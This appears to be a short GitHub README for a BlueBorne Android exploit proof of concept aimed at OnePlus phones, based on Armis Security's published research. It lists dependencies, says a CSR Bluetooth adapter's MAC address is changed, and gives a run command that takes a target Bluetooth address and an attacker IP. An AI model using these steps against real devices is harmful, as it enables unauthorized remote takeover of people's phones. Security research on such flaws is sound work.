 BlueBorne Android Exploit PoC for OnePlus

base on https://github.com/ArmisSecurity/blueborne/


Dependencies:

pip2 packages: pybluez, pwn

- sudo apt-get install libbluetooth-dev
- sudo pip2 install pybluez pwn

A CSR USB bluetooth adapter. We need to change the MAC address, and so we use a vendor specific HCI command to do this
for the CSR bluetooth adapter.
To run:

sudo python2 doit.py hci0 <target-bdaddr> <attacker-ip>
